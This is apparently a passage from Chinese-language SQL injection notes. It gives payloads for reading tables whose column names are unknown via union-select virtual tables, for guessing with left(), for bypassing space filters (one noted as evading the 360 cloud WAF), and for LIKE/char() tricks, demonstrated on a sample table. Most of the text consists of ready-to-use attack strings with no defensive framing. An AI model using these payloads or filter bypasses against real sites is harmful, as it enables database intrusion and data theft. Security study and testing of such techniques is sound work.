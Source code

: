#### 未知字段名

```txt
1.使用虚拟表：
原理：
核心在将一个可控的虚拟表V1与需要查询的真实表V2联合起来（使用union select），使得表字段可控从而查询数据。

payload:
select a.2 from (select 1,2 from DUAL union select * from math1)a;  #查询math1表，第2个字段的值，注意d.2要和a，b要和字段数一致
select d.2 from (select * from (select 1)a join (select 2)b union select * from math1)d;    #当过滤逗号时使用

2.使用left()，进行猜解
原理：
当字段存在时left()返回True,否则返回False

payload:
select id,name from math1 where id=0 or left(name,0)=0;
select id,name from math1 where id=1 and left(name,0)=0;   #使用数字时，永远返回true？可以猜解字符型表名
```

#### 空格过滤

```txt
%20         #url编码
%00         #00截断
%09         #tab
%0a         #绕过360云waf，是\n，绕过select.+from
%0b
%0c
%0d
%a0
+
-++-        #数值型可以
-+-+-+-+~~  #同上，但是实站都行，原因未知
!~~!        #有点问题
/**/        #
/*--*/
()
```

#### 判断其他过滤

```txt
实例:
+----+-------------+
| id | name        |
+----+-------------+
|  1 | langyi      |
|  2 | luyasheng   |
|  3 | lichongfei  |
|  4 | xiaoming    |
|  5 | 0           |
|  6 | liumuzi     |
|  7 | wangyuxing  |
|  8 | gaoyingying |
| 10 | pass        |
| 11 | 0           |
| 12 | bbbx        |
| 13 | 0           |
+----+-------------+

1.百分号:
select * from math1 where name like 'l%' limit 1 offset 0;
select * from math1 where id like concat(char(49),char(95));    #49=1，95=_
```